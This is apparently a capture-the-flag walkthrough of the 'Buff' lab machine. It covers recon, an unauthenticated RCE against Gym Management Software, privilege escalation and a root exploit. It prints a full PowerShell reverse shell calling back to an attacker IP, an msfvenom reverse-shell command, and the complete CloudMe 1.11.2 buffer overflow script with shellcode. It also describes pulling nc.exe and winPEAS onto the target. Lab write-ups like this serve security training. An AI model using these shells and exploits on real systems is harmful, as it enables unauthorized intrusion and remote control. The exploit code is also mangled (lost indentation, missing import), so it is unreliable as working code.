








Buff
Following the PTES Framewrok.
- Pre-Enagement Interaction
- Intelligence Gathering
- Threat Modeling
- Vulnerability Analysis
- Exploitation
- Post Exploitation
- Reporting
Nmap scan

Nmap reveals that the port '8080', visiting the page will load a exercise webpage.
Projectworlds.in It could a project from this site <==
The contact page shows:
mrb3n's Bro HutMade using Gym Management Software 1.0From the index.php it's clear that the site is build with php.
Directory Busting
Let's run Gobuster.
Metasploit
Searching for Gym Management on searchsploit will give few results.

Using the Remote Code Execution with no Authentication? Sounds interesting so let's try.
copy the file to local directory and use legacy python2 to run this.
Priv Esc
The shell above is not presistant, Can't change directories or anuthong. need a better shell. Using Nashing will get more presistance shell.
Copy the Invoke-PowerShellTcpOneLine.ps1 to locate directory and change the ip to attacker machine with a port.

$client = New-Object System.Net.Sockets.TCPClient('10.10.16.3',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};whi
│ le(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,
│ $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASC
│ II).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
THE ABOVE REVERSE SHELL DID NOT WORK let's go different way.
Uing nc.exe to get the powershell
Copy the nc.exe to local directory and host with python. Curl the nc.exe file on the target machine.
Start listening to the on a port
On the target machine run the command
We have a shell. 
Since the shell is more presistenct, Changing the directory is possible.
Runing winPEAS.ps1
Copy the winPEAS.exe to local directory and host then curl to the target machine and run.
Once done uploading, run it.\winPEAS.exe
Going through the winpeas output found the CloudMe and search sploit shows that there is a buffer overflow exploit. 
list LISTEING PORTS
HTTP Tunnel with Chisel
Download chisel.exe and chisel for linux and transfer the chisel.exe to the target machine.
Run chisel
Cleint (target machien)
Kali
On a seprate window run
Connecting to mysql
--ssl=0 for Maria db to disable ssl Looks like all the tables are empty; check if there is chisel
List all the payloads
## Get the msfvenom from the cloudMe exploit that we found
grep -i 'msfvenom' cloudme_exploit.py
msfvenom -l payload
## kali ip and port to listen on
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=9004 -b '\x00\x0A\x0D' -f python
copy the payload and added to the .py cloudMe file replacing the existance code (buffer part)
addd at the end
Listen on local port 9004 in this case
Now run the cloudMe.py exploit (the name was change for the exploit from 48389.py) Root.txt

#Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86
#Instructions:
# Start the CloudMe service and run the script.
import socket
target = "127.0.0.1"
padding1 = b"\x90" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x90" * 30
# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -b '\x00\x0A\x0D' -f python
buf = b""
buf += b"\xd9\xeb\xba\x2a\x18\xb0\x34\xd9\x74\x24\xf4\x5e"
buf += b"\x29\xc9\xb1\x52\x83\xc6\x04\x31\x56\x13\x03\x7c"
buf += b"\x0b\x52\xc1\x7c\xc3\x10\x2a\x7c\x14\x75\xa2\x99"
buf += b"\x25\xb5\xd0\xea\x16\x05\x92\xbe\x9a\xee\xf6\x2a"
buf += b"\x28\x82\xde\x5d\x99\x29\x39\x50\x1a\x01\x79\xf3"
buf += b"\x98\x58\xae\xd3\xa1\x92\xa3\x12\xe5\xcf\x4e\x46"
buf += b"\xbe\x84\xfd\x76\xcb\xd1\x3d\xfd\x87\xf4\x45\xe2"
buf += b"\x50\xf6\x64\xb5\xeb\xa1\xa6\x34\x3f\xda\xee\x2e"
buf += b"\x5c\xe7\xb9\xc5\x96\x93\x3b\x0f\xe7\x5c\x97\x6e"
buf += b"\xc7\xae\xe9\xb7\xe0\x50\x9c\xc1\x12\xec\xa7\x16"
buf += b"\x68\x2a\x2d\x8c\xca\xb9\x95\x68\xea\x6e\x43\xfb"
buf += b"\xe0\xdb\x07\xa3\xe4\xda\xc4\xd8\x11\x56\xeb\x0e"
buf += b"\x90\x2c\xc8\x8a\xf8\xf7\x71\x8b\xa4\x56\x8d\xcb"
buf += b"\x06\x06\x2b\x80\xab\x53\x46\xcb\xa3\x90\x6b\xf3"
buf += b"\x33\xbf\xfc\x80\x01\x60\x57\x0e\x2a\xe9\x71\xc9"
buf += b"\x4d\xc0\xc6\x45\xb0\xeb\x36\x4c\x77\xbf\x66\xe6"
buf += b"\x5e\xc0\xec\xf6\x5f\x15\xa2\xa6\xcf\xc6\x03\x16"
buf += b"\xb0\xb6\xeb\x7c\x3f\xe8\x0c\x7f\x95\x81\xa7\x7a"
buf += b"\x7e\xa4\x3d\x94\x7d\xd0\x43\x94\xa2\x0c\xcd\x72"
buf += b"\xce\x5c\x9b\x2d\x67\xc4\x86\xa5\x16\x09\x1d\xc0"
buf += b"\x19\x81\x92\x35\xd7\x62\xde\x25\x80\x82\x95\x17"
buf += b"\x07\x9c\x03\x3f\xcb\x0f\xc8\xbf\x82\x33\x47\xe8"
buf += b"\xc3\x82\x9e\x7c\xfe\xbd\x08\x62\x03\x5b\x72\x26"
buf += b"\xd8\x98\x7d\xa7\xad\xa5\x59\xb7\x6b\x25\xe6\xe3"
buf += b"\x23\x70\xb0\x5d\x82\x2a\x72\x37\x5c\x80\xdc\xdf"
buf += b"\x19\xea\xde\x99\x25\x27\xa9\x45\x97\x9e\xec\x7a"
buf += b"\x18\x77\xf9\x03\x44\xe7\x06\xde\xcc\x17\x4d\x42"
buf += b"\x64\xb0\x08\x17\x34\xdd\xaa\xc2\x7b\xd8\x28\xe6"
buf += b"\x03\x1f\x30\x83\x06\x5b\xf6\x78\x7b\xf4\x93\x7e"
buf += b"\x28\xf5\xb1"
payload=buf
overrun = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(buf)
except Exception as e:
print(sys.exc_value)